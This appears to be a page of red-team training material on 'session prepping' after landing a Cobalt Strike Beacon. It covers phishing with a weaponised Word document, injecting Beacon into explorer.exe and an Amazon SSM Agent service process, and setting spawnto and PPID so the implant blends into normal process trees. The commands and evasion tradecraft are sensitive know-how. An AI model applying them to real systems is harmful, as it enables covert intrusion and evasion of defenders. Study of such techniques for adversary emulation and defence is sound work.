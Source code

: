 Session Prepping is a term to describe how you can "prep" your session after landing an initial Beacon on a machine, which is an important step after initial compromise or lateral movement.  Your strategies and TTPs should be defined upfront based on the threat you're emulating, but for the sake of this section I'm going to provide the following:

Send a weaponised Word document in a phishing email that will locate a running instance of Edge, IE or Chrome, then inject a Beacon payload into it.  If an instance is not found, spawn one.  Once the Beacon has landed, set the spawnto to whichever browser binary we landed in (or spawned).  Keep the PPID set to the Beacon process.

Rationale:

-   Browsers make outbound HTTP/S connections by design.
-   Edge, IE and Chrome are the most popular (you could include Firefox as well).
-   Browsers legitimately spawn new child processes per tab.

Beacon is running in msedge.exe, PID 1048.

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/evasion/session-prep/msedge-beacon.png)

On the target, the process tree looks like this:

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/evasion/session-prep/msedge-ph.png)

Of the 7 child processes there, one of them is a Beacon post-ex capability running, the others are legitimate tabs.

---

With lateral movement, we often don't get much of a choice in what we're executing on the target, particularly when using the default `jump` commands.  For example, `jump winrm64` will land us in a PowerShell process and `jump psexec64` in the default spawnto of the C2 profile.

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/evasion/session-prep/rundll32-beacon.png)

  

After jumping with psexec, the Beacon is living in rundll32.

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/evasion/session-prep/rundll32-ph.png)

  

rundll32.dll is a major outlier here because it's running in Session ID 0, but not PPID'd to an existing service executable.  This would be true for whatever spawnto we were using, as this is just the nature of how Cobalt Strike's psexec implementation works.  The service and service executable are cleaned up and removed after execution, which leaves the process hosting the payload in this orphaned state.  We don't want to continue operating in this Beacon, so we should prep the session before performing any post-ex actions on this host.

There are two paths we can take from here depending on what we want to achieve.

If the RTO2\amoss user is the target, we can move into their desktop session and live entirely in their user space.  We would be dropping down from high-integrity to medium, but that might not even matter.  The easiest method of doing this is to inject a payload into one of the user's processes (there aren't many here, so let's just use explorer).

```
beacon> inject 4628 x64 smb
[+] established link to child beacon: 10.10.120.75
```

The Beacon chain is now going like this:

------------------------      ------------------------       -------------------------
|  cbridges @ WKSTN-1  |      |   SYSTEM @ WKSTN-2    |      |    amoss @ WKSTN-2    |
|   msedge.exe (1048)  |  =>  |  rundll32.dll (5844)  |  =>  |  explorer.exe (4628)  | 
------------------------      ------------------------       -------------------------

So next, we need to `exit` the SYSTEM session and `link` to the session running as amoss from cbridges.  We can leave the PPID since it's ok for processes to be a child of explorer, and then set the spawnto to something the user might execute.

beacon> spawnto x64 %windir%\\sysnative\\notepad.exe
beacon> spawnto x86 %windir%\\syswow64\\notepad.exe

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/evasion/session-prep/spawnto-notepad.png)

  

The other option, is if we want to maintain our SYSTEM level access in Session 0.  The strategy that makes the most sense to me is to hide ourselves as a child of an existing service executable.  Most of these are found as children of **services.exe** (the "Services and Controller app") and the vast majority of default Windows services run as **svchost.exe**.  Many of these will also spawn their own children such as SearchApp.exe, taskhostw.exe, ctfmon.exe and others.

The "problem" with these core Windows processes is that they are protected, so you can't arbitrarily open handles to them, even as SYSTEM.

```shell
beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> inject 840 x64 smb
[-] could not open process 840: 5
[-] could not connect to pipe
```

  

A more reliable bet is to find a third-party service, because they will often have a lower level of protection.  Let's have a look at the Amazon SSM Agent as an example.

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/evasion/session-prep/ssm-agent.png)

  

**amazon-ssm-agent.exe** is the service executable for the AmazonSSMAgent service.

```shell
SERVICE_NAME: AmazonSSMAgent
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Amazon SSM Agent
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

  

This service spawns **ssm-agent-worker.exe** as children.  This could be a good candidate - we could inject into the agent process and set our spawnto to the worker executable.

```
beacon> inject 2796 x64 smb
[+] established link to child beacon: 10.10.120.75

beacon> spawnto x64 %ProgramFiles%\Amazon\SSM\ssm-agent-worker.exe
```
  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/evasion/session-prep/agent-worker.png)

  

These are just some examples based on the situation you find yourself in.  You should be willing to enumerate a host and adapt to blend into what looks "normal".